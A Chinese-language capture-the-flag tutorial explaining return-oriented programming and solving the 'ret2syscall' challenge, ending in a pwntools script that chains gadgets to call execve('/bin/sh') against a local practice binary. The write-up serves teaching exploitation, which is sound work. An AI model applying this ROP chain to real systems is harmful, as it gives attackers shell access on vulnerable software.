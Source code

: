 # 05.ret2syscall

<a name="19478086"></a>
## ROP原理：

 随着 NX 保护的开启，以往直接向栈或者堆上直接注入代码的方式难以继续发挥效果。攻击者们也提出来相应的方法来绕过保护，目前主要的是 ROP(Return Oriented Programming)，其主要思想是在**栈缓冲区溢出的基础上，利用程序中已有的小片段 (gadgets) 来改变某些寄存器或者变量的值，从而控制程序的执行流程。**

<a name="b7d7d9a8"></a>
### gadget：

所谓 gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程。

例如：`pop eax ; ret`

这段代码的作用就是将栈顶的数据弹出给eax，然后再将栈顶的数据作为返回地址返回。

假如我们通过栈溢出将eip覆盖为pop eax的地址，当程序返回的时候就会执行pop eax，将'aaaa'放到eax中，然后执行ret指令，将'bbbb'放入eip寄存器中，然后会执行地址为'bbbb'处的指令，可以看到，bbbb处的指令为xxxx，当执行完xxxx后，继续执行ret指令，然后会返回到cccc指令处，执行xxxx。system函数的本质也是一条条汇编指令的组合，如果我们能找到多个xxxx，ret结构的指令，将其连接在一起，就可以达到执行system函数的效果。

![](https://img-blog.csdnimg.cn/235ef4c7db3c424e9d502314c10d7597.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA6IuP55KD5Y-q5oOz5YiS5rC0,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center#crop=0&crop=0&crop=1&crop=1&id=CmacD&originHeight=641&originWidth=857&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

之所以称之为 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序，我们可以将多个gadget组合到一起，进而可以执行多条汇编指令，从而达到目的。ROP 攻击一般得满足如下条件

- 程序存在溢出，并且可以控制返回地址。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。

<a name="7ca4fde4"></a>
## 例题：

ret2syscall，即通过ROP控制程序执行系统调用，获取 shell。

<a name="562b019f"></a>
### 首先checksec：

![](https://img-blog.csdnimg.cn/2021022122125167.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=sbSJv&originHeight=216&originWidth=1003&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

32位程序，开启了堆栈不可执行。

<a name="f12d506c"></a>
### ida分析：

![](https://img-blog.csdnimg.cn/20210221221334617.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Tlpr6&originHeight=246&originWidth=695&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

依旧是栈溢出，只不过不存在后门函数，且开启了nx保护，考虑使用ROP来执行系统调用。

<a name="7ac74a4c"></a>
### 关于系统调用的知识：

**Linux 的系统调用通过 int 80h 实现，用系统调用号来区分入口函数**

**应用程序调用系统调用的过程是：**

1、**把系统调用的编号存入 EAX**

2、**把函数参数存入其它通用寄存器**

3、**触发 0x80 号中断（int 0x80）**

那么我们如果希望通过系统调用来获取 shell 就需要把系统调用的参数放入各个寄存器，然后执行 int 0x80 指令就可以了。

<a name="c3e4a8eb"></a>
### 本题思路

想通过系统调用执行：`execve("/bin/sh",NULL,NULL)`（32位程序）

那么 eax 寄存器应该放系统调用号，查看 execve 的系统调用号：

```
 cat /usr/include/asm/unistd_32.h | grep execve
```

![](https://img-blog.csdnimg.cn/20210221221419364.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=PcEwD&originHeight=119&originWidth=579&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

得到 11，转换为 16 进制是 0xb，所以 eax 中应该存放 0xb。

ebx 应该存放想要执行的 /bin/sh 的地址，还有两个参数设置为 0。

所以现在需要做的就是让：

1.  eax=0xb 
2.  ebx=/bin/sh 的地址 
3.  ecx=0 
4.  edx=0 

要让栈顶的值是 0xb 然后可以通过 pop eax 达到目的

用ROPgadget来查找相应的gadget，命令如下：

`ROPgadget --binary rop --only 'pop|ret' | grep 'eax'`

![](https://img-blog.csdnimg.cn/20210221221548702.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=YwHq7&originHeight=184&originWidth=1025&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到地址为：0x080bb196

类似的，通过这条命令寻找控制其他寄存器的地址，我们发现0x0806eb90位置存在一个gadget可以控制ebx，ecx，edx寄存器，所以我们选择这一条。

![](https://img-blog.csdnimg.cn/20210221221607494.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=FFySo&originHeight=738&originWidth=1031&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

同时使用：`ROPgadget --binary rop --string '/bin/sh'` 找到 '/bin/sh' 字符串在什么地方

![](https://img-blog.csdnimg.cn/20210221221624306.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=nTAFz&originHeight=148&originWidth=1000&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以及需要的 int 0x80：`ROPgadget --binary rop --only 'int'`

![](https://img-blog.csdnimg.cn/20210221221643242.png#pic_center#crop=0&crop=0&crop=1&crop=1&id=c2Vhd&originHeight=188&originWidth=1024&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

确定偏移的长度为112.

<a name="5af9901f"></a>
### 执行过程：

![](https://img-blog.csdnimg.cn/20210221221655167.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTk0MzUyMg==,size_16,color_FFFFFF,t_70#pic_center#crop=0&crop=0&crop=1&crop=1&id=Xs5qo&originHeight=615&originWidth=937&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

<a name="68333f9d"></a>
### 编写exp：

```python
from pwn import *
p=process('./rop')
int_addr=0x8049421
bin_sh_addr=0x80be408
pop_other_ret=0x806eb90
pop_eax_ret=0x80bb196
payload='a'*112+p32(pop_eax_ret)+p32(0xb)+p32(pop_other_ret)+p32(0)+p32(0)+p32(bin_sh_addr)+p32(int_addr)
p.sendline(payload)
p.interactive()
```

